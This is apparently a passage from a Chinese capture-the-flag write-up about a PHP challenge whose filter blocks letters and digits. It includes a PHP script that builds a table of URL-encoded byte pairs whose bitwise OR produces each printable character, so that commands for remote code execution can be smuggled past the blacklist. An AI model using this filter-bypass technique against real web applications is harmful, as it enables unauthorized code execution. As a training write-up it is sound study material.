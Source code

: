 这题连字母都过滤了

通过脚本来完成, 首先通过一个php脚本生成

```php
<?php
$my_file = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';  # 把题目里的过滤条件放在这里
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo ""; # 检查上面生成的十六进制数在转二进制后(hex2bin)能否被题目中给的过滤条件匹配到
    } 
  
		else{
		$a='%'.$hex_i; # 如果没有被匹配到, 则在它们前面加上%,处理成url编码的格式
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b)); 
            # a和b url解码后在二进制下进行或运算,得到的结果是c这个字符
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}
}
}
fwrite($my_file,$contents);
fclose($my_file);
?>
```

上述代码生成一个这样的文件:  后面两个url编码后的字符(这些字符不会被题目中的过滤条件过滤)在经过或运算之后能够得到前面的字符,

那么接下来就可以通过两个字符进行或运算的方式来构造最终希望执行的命令代码
